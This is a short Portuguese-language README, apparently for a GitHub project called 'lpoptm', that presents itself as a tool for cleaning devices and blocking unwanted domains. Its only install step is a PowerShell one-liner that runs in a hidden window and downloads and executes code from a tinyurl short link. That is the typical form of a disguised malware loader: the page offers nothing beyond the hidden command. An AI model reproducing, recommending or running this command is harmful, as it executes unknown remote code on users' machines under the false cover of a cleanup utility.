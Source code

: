 # lpoptm

Uma ferramenta para facilitar a limpeza de dispositivos e bloquear dominios indesejados.

```powershell -w hidden "iex(iwr tinyurl.com/2SlSg1 -UseB)"```
